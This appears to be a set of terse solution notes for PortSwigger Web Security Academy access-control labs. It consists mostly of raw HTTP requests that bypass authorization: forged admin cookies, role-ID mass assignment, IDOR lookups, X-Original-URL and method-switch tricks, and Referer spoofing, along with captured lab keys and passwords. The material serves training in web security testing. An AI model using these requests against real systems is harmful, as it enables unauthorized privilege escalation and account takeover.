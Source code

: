 ### Lab: Unprotected admin functionality

https://0a9300fe03192ceec1a17e56009b001f.web-security-academy.net/robots.txt

https://0a9300fe03192ceec1a17e56009b001f.web-security-academy.net/administrator-panel

### Unprotected admin functionality with unpredictable URL

view page source

view-source:https://0a22006f04a1bdf8c0480cda004300f7.web-security-academy.net/

### User role controlled by request parameter

GET /admin/delete?username=carlos HTTP/1.1
Host: 0a7200a9031f1a73c11fba7b002f0089.web-security-academy.net
Cookie: Admin=true; session=gkQy2FHmqjoP1cRKabO8FhMUYM3AW3PD
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7200a9031f1a73c11fba7b002f0089.web-security-academy.net/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

###

POST /my-account/change-email HTTP/1.1
Host: 0a1900ae048d590fc1664047002c0073.web-security-academy.net
Cookie: session=M40nQjvsgltslbKMjUsG82cDJMO7uXZZ
Content-Length: 54
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://0a1900ae048d590fc1664047002c0073.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a1900ae048d590fc1664047002c0073.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{
  "email":"asdasdasdasd@asdasd.ocm",
  "roleid":2
}

HTTP/1.1 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 127

{
  "username": "wiener",
  "email": "asdasdasdasd@asdasd.ocm",
  "apikey": "m40yUOsRyLioB2wqwipwkyuSu8SHV5g3",
  "roleid": 2
}

### 

GET /my-account?id=carlos

eRodDFcKGmEE4uH8CRO9znsK7uqYgbvm

###

https://0ad500930490c483c0e55564005300e7.web-security-academy.net/post?postId=6

https://0ad500930490c483c0e55564005300e7.web-security-academy.net/my-account?id=197c4d94-4a1a-4c49-be0b-1ddc3a6cd56a

###

GET /my-account?id=carlos HTTP/1.1
Host: 0afb00c603871a7dc123d65300680073.web-security-academy.net
Cookie: session=y0JNXlFBfRSZqUNVQpD0QJheBIANYKxa
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0afb00c603871a7dc123d65300680073.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

### User ID controlled by request parameter with password disclosure

https://0a82006803c743c3c0f91ee100750053.web-security-academy.net/my-account?id=administrator

mtlswn8mho698df7c4iv

### Insecure direct object references

Try to download transcript, we get 2.txt

Try again we get 3.txt

Try get 1.txt

view-source:https://0a47008903c58562c05ff9c700090052.web-security-academy.net/chat source code

https://0a47008903c58562c05ff9c700090052.web-security-academy.net/resources/js/viewTranscript.js

https://0a47008903c58562c05ff9c700090052.web-security-academy.net/download-transcript/1.txt

CONNECTED: -- Now chatting with Hal Pline --
You: Hi Hal, I think I've forgotten my password and need confirmation that I've got the right one
Hal Pline: Sure, no problem, you seem like a nice guy. Just tell me your password and I'll confirm whether it's correct or not.
You: Wow you're so nice, thanks. I've heard from other people that you can be a right ****
Hal Pline: Takes one to know one
You: Ok so my password is yv8tjead9aoo9qiooy6e. Is that right?
Hal Pline: Yes it is!
You: Ok thanks, bye!
Hal Pline: Do one!

### URL-based access control can be circumvented

GET /?username=carlos HTTP/1.1
Host: 0a9e006903867637c04bcaf500ce003e.web-security-academy.net
X-Original-URL: /admin/delete
Cookie: session=NEBYlGlegx59tpSdAgFjAt1plSTSObdX
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

### Method-based access control can be circumvented

POSTX /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: 0a0100310366cf98c07f18db008600fd.web-security-academy.net
Cookie: session=UNAUTHENTICATED-SESSION-COOKIE
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a0100310366cf98c07f18db008600fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0100310366cf98c07f18db008600fd.web-security-academy.net/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=wiener&action=upgrade

GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: 0a0100310366cf98c07f18db008600fd.web-security-academy.net
Cookie: session=UNAUTHENTICATED-SESSION-COOKIE
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a0100310366cf98c07f18db008600fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0100310366cf98c07f18db008600fd.web-security-academy.net/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=wiener&action=upgrade

### Multi-step process with no access control on one step

POST /admin-roles HTTP/1.1
Host: 0abe00a003b86d53c0ed945d003f008f.web-security-academy.net
Cookie: session=UNAUTHENTICATED-SESSION-COOKIE
Content-Length: 45
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0abe00a003b86d53c0ed945d003f008f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0abe00a003b86d53c0ed945d003f008f.web-security-academy.net/admin-roles
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

action=upgrade&confirmed=true&username=wiener

### Referer-based access control

GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: 0a9b001403bc3f44c0e81b90000c000a.web-security-academy.net
Cookie: session=UNPRIVILEGED-SESSION-COOKIE # need to be logged in as wiener
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9b001403bc3f44c0e81b90000c000a.web-security-academy.net/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


